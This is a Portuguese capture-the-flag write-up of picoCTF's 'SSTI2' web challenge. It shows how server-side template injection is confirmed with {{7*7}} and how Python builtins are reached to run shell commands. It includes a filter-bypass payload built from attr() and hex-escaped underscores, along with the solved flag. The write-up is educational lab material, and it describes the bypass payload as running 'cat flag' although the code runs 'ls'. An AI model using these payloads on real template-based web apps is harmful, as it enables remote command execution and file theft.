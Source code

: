 

# SSTI2
###### Solved by @Mayaracar2
> This is a CTF about SSTI, Web Exploitation
## Desafio: SSTI2 (Exploração Web) 
### Introdução
O desafio apresenta o seguinte enunciado: 

"I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! Check out my website here!"

#### Tradução
"Criei um site bacana onde você pode anunciar o que quiser! Li sobre a higienização de entradas, então agora removo qualquer tipo de caractere que possa ser um problema :)
Ouvi dizer que criar templates é uma maneira legal e modular de criar aplicativos web! Confira meu site aqui !"

- [Página do desafio](https://play.picoctf.org/practice/challenge/488)
### Análise inicial
O link do desafio direciona para uma aplicação web simples onde o usuário pode submeter um texto de anúncio que é renderizado pelo servidor:

- [Link do site](http://shape-facility.picoctf.net:62755/)

A tarefa consiste em verificar se a entrada do usuário é avaliada por um motor de templates (SSTI) e, se positivo, explorar essa avaliação para extrair a flag presente no sistema.

## Solução
Ao acessar a página, foi observado um formulário de input para os anúncios:

<img width="508" height="230" alt="image" src="https://github.com/user-attachments/assets/b16c95bb-8ec0-441d-9b5e-0d3c54c00c3f" />

Para testar se o campo era interpretado pelo motor de templates, foi enviada uma expressão aritmética típica de templates:

```bash
{{7*7}}
```

A aplicação retornou `49`, confirmando que o conteúdo entre `{{ ... }}` é avaliado no servidor, indício claro de Server-Side Template Injection (SSTI).

<img width="924" height="350" alt="image" src="https://github.com/user-attachments/assets/e66cb5c0-cd17-4cf1-b463-cf18d51ad1f2" />

Com a confirmação de SSTI, o atacante pode navegar pelos objetos expostos ao template para alcançar funções perigosas do ambiente Python. O payload utilizado explora a introspecção do objeto `request` para acessar `__builtins__`, importar o módulo os e executar um comando do sistema para ler o arquivo da flag:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

<img width="1360" height="528" alt="image" src="https://github.com/user-attachments/assets/c3d78286-fd04-4107-bde5-8fb48e195916" />

O filtro do servidor bloqueava literais como `__globals__`, mas não impedia escapes em hexadecimal. 

Para contornar o bloqueio de literais, o payload utiliza `attr` e `__getitem__` combinados com underscores codificados em hexadecimal. Isso permite construir dinamicamente os nomes de atributos e funções restritas:


```bash
	{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

O payload é executado pelo motor de template, contornando o filtro, importando os, executando cat flag e retornando o conteúdo da flag:

<img width="1361" height="401" alt="image" src="https://github.com/user-attachments/assets/1638c443-a0f4-4dba-a2ef-d7c52980365e" />

>`picoCTF{sst1_f1lt3r_byp4ss_e39c23ee}`

## Conclusão
O desafio demonstrou como um motor de templates que avalia entradas do usuário pode ser explorado mesmo quando há filtros básicos. Ao usar codificação hexadecimal e chamadas dinâmicas de atributos (attr e __getitem__), foi possível contornar a filtragem, acessar __builtins__ e executar comandos do sistema para ler a flag.

